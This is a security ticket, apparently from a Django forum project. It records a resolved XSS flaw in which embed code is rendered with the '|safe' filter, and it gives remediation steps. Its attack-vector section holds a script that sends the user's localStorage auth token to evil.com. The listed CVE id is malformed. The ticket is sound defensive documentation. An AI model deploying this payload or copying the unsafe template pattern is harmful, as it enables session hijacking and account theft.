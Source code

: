 # Fix XSS Vulnerability in Forum Embed Code

**Status**: ✅ RESOLVED
**Priority**: 🔴 P1 - CRITICAL
**Category**: Security
**Effort**: 3-4 hours
**Deadline**: Immediate
**Resolved Date**: 2025-10-17
**PR**: #14
**Commit**: a0361df
**CVE**: CVE-2024-XSS-002

## Problem

User-supplied embed code is rendered with Django's `|safe` filter, allowing arbitrary JavaScript execution and bypassing all XSS protections.

## Location

`templates/forum_integration/blocks/embed_block.html:14`

## Current Code

```django
{{ value.embed_code|safe }}  <!-- CRITICAL XSS -->
```

## Attack Vector

```html
<!-- Attacker submits as embed code: -->
<script>
  fetch('https://evil.com/steal?token=' + localStorage.getItem('authToken'))
</script>
```

## Impact

- Token theft (compounded by JWT in localStorage)
- Session hijacking
- Malware distribution via forum posts
- Phishing attacks against users
- Full account compromise

## Solution

1. Remove `|safe` filter from template
2. Install and configure `bleach` library for HTML sanitization
3. Whitelist only safe HTML tags (iframe, video, img)
4. Add Content-Security-Policy headers
5. Audit all other uses of `|safe` in templates
